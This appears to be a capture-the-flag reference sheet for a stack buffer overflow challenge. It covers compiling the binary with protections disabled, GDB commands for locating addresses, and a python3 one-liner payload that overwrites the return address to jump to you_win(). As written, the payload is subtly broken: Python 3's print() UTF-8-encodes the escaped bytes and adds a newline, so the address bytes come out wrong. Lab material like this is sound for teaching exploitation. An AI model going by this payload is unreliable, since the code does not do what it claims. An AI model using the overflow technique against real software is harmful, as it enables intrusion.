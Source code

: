 # Summary: Essential Commands for the Overflow Challenge

This is a reference guide for compiling, debugging, and exploiting the `unlock_flag` challenge.

---

## Compilation

```bash
gcc -g -fno-stack-protector -z execstack -no-pie unlock_flag.c -o unlock_flag
```

| Option | Purpose |
|--------|---------|
| `-g` | Include debug symbols for GDB |
| `-fno-stack-protector` | Disable stack canary (overflow protection) |
| `-z execstack` | Allow execution from the stack (not required here but included for completeness) |
| `-no-pie` | Disable address randomization (fixed function addresses) |
| `-o unlock_flag` | Output executable file name |

---

## Debugging with GDB

```bash
gdb ./unlock_flag
```

### Inside GDB:

| Command | Description |
|---------|-------------|
| `break vuln` | Set a breakpoint at the start of `vuln()` |
| `run` | Start the program and stop at the breakpoint |
| `print you_win` | Print the address of the function `you_win()` |
| `info frame` | Show stack frame info (including return address location) |
| `print &name` | Show buffer start address |
| `x/20xb $rsp` | Examine 20 bytes at stack pointer |
| `quit` | Exit GDB |

---

## Running the Exploit Payload

Construct an input that:
- Overflows the buffer (32 bytes total: 24 buffer + 8 saved RBP)
- Overwrites the return address with the address of `you_win()` (in little endian)

Example:

```bash
python3 -c "print('A'*32 + '\x86\x11\x40\x00\x00\x00\x00\x00')" | ./unlock_flag
```

Replace `\x86\x11\x40...` with the address you find using GDB.

---

## Little Endian Reminder

To convert a 64-bit address (e.g. `0x401186`) into little endian:

```
0x401186  →  \x86\x11\x40\x00\x00\x00\x00\x00
```

The least significant byte comes first.

---

Good luck, and remember: precision matters in memory!

